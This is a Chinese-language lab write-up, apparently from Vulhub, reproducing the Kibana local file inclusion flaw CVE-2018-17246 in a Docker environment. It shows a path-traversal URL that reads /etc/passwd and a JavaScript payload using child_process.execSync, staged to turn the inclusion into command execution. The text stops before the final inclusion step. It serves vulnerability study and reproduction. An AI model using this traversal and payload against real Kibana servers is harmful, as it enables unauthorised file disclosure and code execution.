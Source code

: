 # Kibana 本地文件包含漏洞 CVE-2018-17246

## 漏洞描述

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/
- https://www.anquanke.com/post/id/168291

## 环境搭建

Vulhub启动 Kibana 5.6.12 和 Elasticsearch 5.6.16 环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:5601`即可看到Kibana的默认首页。

![image-20220224201606864](images/202202242016950.png)

## 漏洞复现

直接访问如下URL，来包含文件`/etc/passwd`：

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker-compose logs`即可发现，`/etc/passwd`已经成功被包含：

![image-20220224201853518](images/202202242018849.png)

所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们可以将如下代码上传到服务器的`/tmp/vulhub.js`，文件内容为：

```
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```

首先进入docker：

```
docker-compose exec kibana bash 
```

在docker内写入文件：

```
echo 'export default {asJson: function() {return require("child_process").execSync("id").toString()}}' > /tmp/vulhub.js
```

![image-20220224202447963](images/202202242024051.png)